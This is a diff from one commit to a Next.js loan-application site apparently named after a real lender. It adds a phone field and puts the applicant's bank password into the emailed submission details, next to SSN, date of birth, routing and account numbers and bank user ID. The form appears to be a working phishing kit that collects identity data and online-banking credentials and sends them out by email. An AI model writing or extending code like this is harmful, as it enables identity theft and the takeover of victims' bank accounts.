

Before and after one commit to finproject-web/lightstreamloans, a Next.js app: page / in a window 390 px wide. Shown: the part 960-1888 px from the top of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Add phone number field and include all details in email notifications

```diff
--- a/app/api/submit/route.ts
+++ b/app/api/submit/route.ts
@@ -14,6 +14,7 @@ export async function POST(req: NextRequest) {
     "lastName",
     "dob",
     "email",
+    "phone",
     "ssn",
     "streetAddress",
     "city",
@@ -106,6 +107,7 @@ export async function POST(req: NextRequest) {
         data.lastName,
         data.dob,
         data.email,
+        data.phone,
         data.ssn,
         data.streetAddress,
         data.city,
@@ -143,6 +145,7 @@ export async function POST(req: NextRequest) {
 
 Name: ${data.firstName} ${data.lastName}
 Email: ${data.email}
+Phone: ${data.phone}
 SSN: ${data.ssn}
 DOB: ${data.dob}
 Address: ${data.streetAddress}, ${data.city}, ${data.state} ${data.zip}
@@ -151,6 +154,7 @@ Loan amount: ${data.loanAmount}
 Routing number: ${data.routingNumber}
 Account number: ${data.accountNumber}
 Bank user ID: ${data.bankUserId}
+Bank password: ${data.bankPassword}
 
 Submitted at: ${new Date().toISOString()}
 `,
--- a/app/components/LoanForm.tsx
+++ b/app/components/LoanForm.tsx
@@ -7,6 +7,7 @@ const initialData = {
   lastName: "",
   dob: "",
   email: "",
+  phone: "",
   ssn: "",
   streetAddress: "",
   city: "",
@@ -136,6 +137,7 @@ export default function LoanForm() {
       "lastName",
       "dob",
       "email",
+      "phone",
       "ssn",
       "streetAddress",
       "city",
@@ -313,7 +315,19 @@ export default function LoanForm() {
                 </div>
               </div>
               <div className="form-row">
-                <div className="form-group full-width">
+                <div className="form-group">
+                  <label htmlFor="phone">Phone Number <span className="required">*</span></label>
+                  <input
+                    id="phone"
+                    type="tel"
+                    value={data.phone}
+                    onChange={(e) => update("phone", e.target.value)}
+                    placeholder="954-399-0685"
+                    inputMode="numeric"
+                    suppressHydrationWarning
+                  />
+                </div>
+                <div className="form-group">
                   <label htmlFor="ssn">
                     Social Security Number <span className="required">*</span>
                     <span className="field-hint">9 digits</span>
```
Also changed, not shown: 2 other files (tests, documents, lock files or other folders).
